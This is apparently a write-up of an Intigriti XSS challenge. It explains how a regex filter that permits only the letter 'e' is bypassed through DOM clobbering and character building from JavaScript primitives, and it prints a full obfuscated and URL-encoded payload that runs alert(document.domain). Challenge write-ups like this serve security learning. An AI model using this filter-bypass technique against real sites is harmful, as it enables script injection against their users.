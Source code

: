 ```yaml
---
layout: single
title: Filter Bypass using the Atomic parts of Javascript
date: 2021-05-31
classes: wide
tags:
  - Intigriti
  - Challenge
  - GrumpingouT
---
```


How to execute arbitrary code using only the atomic parts of javascript?

![share](/assets/images/intigriti/2021/05/share.jpg)

## Overview

The challenge itself is just a simple captcha program. The captcha contains a form which follows a certain naming pattern where each element has an ID of a single letter set alphabetically.

After a brief analysis, this small part catches my attention.

![vulnerable code](/assets/images/intigriti/2021/05/vulnerable-code.png)

It seems that this piece of code is most likely to be vulnerable. All I need to do is bypass the regular expression `/[a-df-z<>()!\\='"]/gi` to evaluate my code. Simple right? Well, not exactly...

An important note is that I cannot use any letters except “e”. This is tough since we need letters to do our `alert(document.domain)` payload.

However, this comment is is hinting something.

```
Allow letter 'e' because: https://en.wikipedia.org/wiki/E_(mathematical_constant)
```

## Solution

I went into the right direction and tried doing DOM clobbering? We have an element with the ID of ‘e’ which is allowed in the regular expression filter and could be used to build more characters following a well known technique called "Atomic XSS".

![dom clobbering](/assets/images/intigriti/2021/05/dom-clobbering.png)

Unfortunately, the program only evaluates once, which is enough to only decode the payload but not to execute it. I need to find a way to evaluate the code above after it has been decoded. I thought of one solution which is:

```
[]["flat"]["constructor"]("payload goes here")()
```

This proved quite hard since I need at least parenthesis to do this. Using grave accent symbols instead of parenthesis seems to work but not really.

```
[]["flat"]["constructor"]`payload goes here```
```

The problem here is that the payload shouldn’t be a string in order for this to work.

![string evaluation issue](/assets/images/intigriti/2021/05/string-evaluation-issue.png)

This was a major problem since most techniques required at least an equals sign to solve such a problem..

After a few hours messing around inside the devtools console, I managed to get “lucky”. I found two valid methods that solve this problem: `call` and `apply`

![string evaluation solution](/assets/images/intigriti/2021/05/string-evaluation-solution.png)

Now I have a few more literals to encode to get this working.

![preparing-payload](/assets/images/intigriti/2021/05/preparing-payload.png)

The full payload looks like this:

```
[][[e[0]+[]][0][4] + [e+[]][0][21] + [e*e+[]][0][1] + [e+[]][0][6]][[e+[]][0][5] + [e+[]][0][1] + [e+[]][0][25] + [e+[]][0][18] + [e+[]][0][6] + [e+[]][0][16] + [e[0]+[]][0][0] + [e+[]][0][5] + [e+[]][0][6] + [e+[]][0][1] + [e+[]][0][16]][[e+[]][0][5] + [e*e+[]][0][1] + [e+[]][0][21] + [e+[]][0][21]]`${[[e*e+[]][0][1] + [e+[]][0][21] + [e+[]][0][22] + [e+[]][0][16] + [e+[]][0][26] + [[][ [e[0]+[]][0][4] + [e+[]][0][21] + [e*e+[]][0][1] + [e+[]][0][26]]+[]][0][13] + [e[0]+[]][0][2] + [e+[]][0][1] + [e+[]][0][5] + [e[0]+[]][0][0] + [e+[]][0][23] + [e[0]+[]][0][3] + [e[0]+[]][0][1] + [e+[]][0][26] + [0.1+[]][0][1] + [e[0]+[]][0][2] + [e+[]][0][1] + [e+[]][0][23] + [e*e+[]][0][1] + [e[0]+[]][0][5] + [e[0]+[]][0][1] + [[][ [e[0]+[]][0][4] + [e+[]][0][21] + [e*e+[]][0][1] + [e+[]][0][26]]+[]][0][14]]}```
```

Lastly I need to remove the spaces and change the plus signs %2B in order to not mess up my payload when passed as a URL.

```
[][[e[0]%2Be][0][4]%2B[e%2Be][0][21]%2B[e*e%2Be][0][1]%2B[e%2Be][0][6]][[e%2Be][0][5]%2B[e%2Be][0][1]%2B[e%2Be][0][25]%2B[e%2Be][0][18]%2B[e%2Be][0][6]%2B[e%2Be][0][16]%2B[e[0]%2Be][0][0]%2B[e%2Be][0][5]%2B[e%2Be][0][6]%2B[e%2Be][0][1]%2B[e%2Be][0][16]][[e%2Be][0][5]%2B[e*e%2Be][0][1]%2B[e%2Be][0][21]%2B[e%2Be][0][21]]`${[[e*e%2Be][0][1]%2B[e%2Be][0][21]%2B[e%2Be][0][22]%2B[e%2Be][0][16]%2B[e%2Be][0][26]%2B[[][[e[0]%2Be][0][4]%2B[e%2Be][0][21]%2B[e*e%2Be][0][1]%2B[e%2Be][0][26]]%2Be][0][13]%2B[e[0]%2Be][0][2]%2B[e%2Be][0][1]%2B[e%2Be][0][5]%2B[e[0]%2Be][0][0]%2B[e%2Be][0][23]%2B[e[0]%2Be][0][3]%2B[e[0]%2Be][0][1]%2B[e%2Be][0][26]%2B[0.1%2Be][0][1]%2B[e[0]%2Be][0][2]%2B[e%2Be][0][1]%2B[e%2Be][0][23]%2B[e*e%2Be][0][1]%2B[e[0]%2Be][0][5]%2B[e[0]%2Be][0][1]%2B[[][[e[0]%2Be][0][4]%2B[e%2Be][0][21]%2B[e*e%2Be][0][1]%2B[e%2Be][0][26]]%2Be][0][14]]}```
```

Now I can paste the payload as a value to a query string parameter, for example `captcha.php?c=payload`.

Upon entering the URL, all I need is to click the submit button and the payload gets executed.

![alert](/assets/images/intigriti/2021/05/alert.png)

Thanks for reading!

